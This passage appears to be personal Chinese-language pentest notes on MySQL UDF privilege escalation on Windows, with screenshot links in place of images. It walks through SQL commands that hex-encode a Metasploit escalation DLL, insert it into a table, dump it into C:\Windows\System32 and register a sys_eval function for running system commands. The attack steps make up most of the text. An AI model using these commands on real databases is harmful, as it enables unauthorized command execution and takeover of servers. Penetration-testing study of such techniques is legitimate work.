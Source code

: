 ![image-20241018235639795](操作系统提权/image-20241018235639795.png)	

```
从metasploit拿到提权dll转换成十六进制的内容。这个使用自己本机的mysql转换。以下图片是转换的十六进制的内容
select hex(load_file('C:/udf.dll')) into dumpfile 'c:/udf.txt'
```

![image-20241018235807575](操作系统提权/image-20241018235807575.png)

```
将转换好十六进制的内容的数据插入表中。
INSERT into temp_udf values (CONVERT($binaryCode,CHAR));
将$binarycode换成转换好的十六进制内容，然后插入到表中。
```

​	![image-20241018235952576](操作系统提权/image-20241018235952576.png)	

```
根据mysql的版本，由于是5.0<=MYsql<5.1，所以把表中的数据导出成dll文件放置系统目录（system32）
SELECT udf FROM temp_udf INTO DUMPFILE "C:\\Windows\\System32\\udf.dll"
```

```
根据这个dll创建扩展的内置函数
create function sys_eval returns string soname 'udf.dll';
```

![image-20241019000401615](操作系统提权/image-20241019000401615.png)	
